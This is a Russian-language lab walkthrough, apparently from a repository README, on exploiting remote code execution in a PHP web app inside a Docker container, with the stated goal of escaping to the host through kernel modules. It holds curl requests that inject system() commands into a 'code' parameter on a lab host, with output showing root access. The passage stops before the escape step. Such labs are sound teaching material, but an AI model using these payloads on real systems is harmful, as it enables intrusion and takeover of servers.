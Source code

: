 Для запуска примера эксплуатации RCE внутри docker образа с выходом
в хостовую систему, выполните следующие шаги:
```
$ vagrant ssh victim
vagrant@victim:~$ cd /vagrant/victim/
vagrant@victim:/vagrant/victim$ docker-compose up -d
```

Посмотрим от имени какого пользователя запущен процесс с pid 1 в
запущенном контейнере:
```
vagrant@victim:/vagrant/victim$ docker-compose exec webapp bash
root@ef07105a20f9:/app# ls -l /proc/1          
  total 0
  dr-xr-xr-x 2 root root 0 Nov 26 17:14 attr
  ...
```
Владелец файлов в директории `/proc/<PID>` аналогичен владельцу самого
процесса. Это способ определить владельца в случае если `ps` не
установлен.

## Exploitation

Так как при использовании docker ядро используеться из хостовой системы,
то операции с ядром (например загрузка модуля) выполняються сразу во
всех контейнерах и хостовой системе.

Зайдём в VM `hacker`:
```
$ vagrant ssh hacker
```

Проверим от имени какого пользователя запущено web-приложение, для этого
выполним команду `id`:
```
vagrant@hacker:~$ curl -G 192.168.50.4 --data-urlencode "code=system('id');"
  <h1> Hello world!</h1>
  uid=0(root) gid=0(root) groups=0(root)
  <br>
```
Сообщение говорит нам о том, что процесс, в контексте которого мы
выполняем наши команды, запущен от имени пользователя root.

Проверим доступность команды `capsh`, которая позволит нам просмотреть
доступные нам разрешения:
```
vagrant@hacker:~$ curl -G 192.168.50.4 --data-urlencode "code=system('whereis capsh');"
  <h1> Hello world!</h1>
  capsh:
  <br>
```

Команда capsh не найдена. Установим ее:
```
vagrant@hacker:~$ curl -G 192.168.50.4 \
  --data-urlencode "code=system('apt-get update && apt-get install -y libcap2-bin kmod');"
...
```
